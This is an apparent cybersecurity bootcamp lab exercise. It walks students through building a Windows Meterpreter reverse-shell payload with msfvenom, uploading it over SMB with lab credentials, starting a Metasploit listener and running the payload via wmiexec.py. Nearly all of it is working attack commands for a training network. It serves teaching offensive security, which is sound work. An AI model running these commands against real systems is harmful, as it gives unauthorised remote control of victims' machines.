## Activity File: msfvenom

In this activity, you will create a custom payload with `msfvenom`, transfer it to the designated host, and then run it with WMI.  

⚠️ **Reminder** - Don't forget to save your findings, as you will add them to your week 17 Homework!


### Instructions

1. Make sure you're in your home directory and then generate a Windows Meterpreter payload using the following commands:

    - `cd ~`

    - `msfvenom -p windows/meterpreter/reverse_tcp LHOST=172.22.117.100 LPORT=4444 -f exe > shell.exe`

    ![A screenshot depicts the results of the commands.](../../Images/msfvenom.PNG)

2. Next, use SMBClient in Kali to interact with the Windows machine's file system over SMB. To connect to the remote filesystem, type: `smbclient //172.22.117.20/C$ -U megacorpone/tstark`

    - This connects to the `C` drive on the remote machine as the user tstark. 

3. You will then be asked for a password. Input tstark's password: `Password!`

4. List the files in the current directory using the following command:

    - `ls`

    ![A screenshot depicts the results of the command.](../../Images/smbclient.PNG)

5. Upload your payload via the following command:

    - `put shell.exe`

    ![A screenshot depicts the results of the command.](../../Images/put.png)

    - Now that the payload is on the remote system, we can execute it using the WMI module in Metasploit. Before doing that, though, we need to ensure that Metasploit is listening for our payload to execute.

6. In Metasploit, select the `exploit/multi/handler` module, and configure it to match the payload settings by using the following commands:

    - `use exploit/multi/handler`

    - `set payload windows/meterpreter/reverse_tcp`

    - `set LHOST [IP ADDRESS]`

    - `set LPORT 4444`

    - `exploit -j`

    ![A screenshot depicts running these commands.](../../Images/multihandler.PNG)

    - **Note**: The `-j` argument in `exploit -j` means to run in the background. This ensures that our listener is constantly listening and we can use Metasploit with it listening in the background.

7. Now, open up another tab in your terminal to run the WMI command from our previous class

8. Find the terminal command we used before: `sudo wmiexec.py megacorpone/tstark:'Password'@172.22.117.20 whoami`
 
9. For the COMMAND, instead of `whoami` put in the path of the payload that you uploaded on the remote machine. If you did not change directories when uploading via SMBClient, then the payload will be located in `C:\`.

    - For example, if you uploaded the payload here:  `C:\shell.exe`
    - The complete command will be:
        - `sudo wmiexec.py megacorpone/tstark:'Password'@172.22.117.20 'C:\shell.exe'`

10. Run the command and on your other tab, The message "Meterpreter session 1 opened" should appear, as the image shows:

    ![A screenshot depicts the results of the command.](../../Images/sessions.png)

    - **Note:** After the message appears, the exploit will seem to "hang." You can safely use Ctrl + C once to exit the prompt. Your session will still be open.
      
11. To view active sessions, type `sessions` 

    ![A screenshot depicts the results of the command.](../../Images/sessionid.png)

12. Select the session based on the ID via the following command:

     - `sessions -i [session ID]`
    - You now have a **Meterpreter shell**, which we will cover in the next lesson.

Congratulations! You successfully created, transferred, and executed a custom payload on a Windows machine.

---
© 2023 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved.



